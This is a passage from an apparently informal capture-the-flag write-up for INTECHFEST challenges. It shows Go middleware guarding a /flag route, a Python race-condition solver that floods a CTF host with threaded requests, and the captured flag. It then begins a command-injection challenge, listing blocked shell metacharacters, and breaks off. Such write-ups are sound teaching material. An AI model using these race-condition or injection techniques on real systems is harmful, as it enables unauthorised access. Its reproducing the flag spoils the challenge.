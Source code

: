```go
	http.ListenAndServe(":8080", r)
}
```
path /flag has flag but hidden, and get protected by `adminOnly` middleware
```go
func adminOnly(next http.Handler) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		w.WriteHeader(http.StatusUnauthorized)
	})
}
```
its literally imposible (as the title says) but if we read the hints, it says about goroutine, and i search up about it, and the result is goroutine vuln to race condition, and yea this is the solver
#### Solver
```py
import threading
import requests

base_url = 'http://playground.tcp1p.team:32783/'

def make_requests(endpoint, thread_id):
    url = f'{base_url}{endpoint}'
    response = requests.get(url)
    if "INTECHFEST" in response.text:
        print(response.text)

endpoints = ['/', '/flag']
threads = []
x = 0
while x < 100:
    t = threading.Thread(target=make_requests, args=(endpoints[x%2], x))
    threads.append(t)
    t.start()
    x+=1
```
![output](imposibleflag.png)
Flag: `INTECHFEST{golang_race_condition_is_hard_to_find_bfbbedecec8b}`

### oscommand
##### Author: 53buahapel
##### Desc: Flag folder is in / directory. Find a way to get it.restricted: [';', '&', '|', '||', '&&', '>', '<', '(', ')', '{', '}', '[', ']', '\', ''', '"', '!', '*', '?', '~', '#', '%', '+', ' ']
we i got a web service, and the web service has a ping command on their web system (i know just by see it)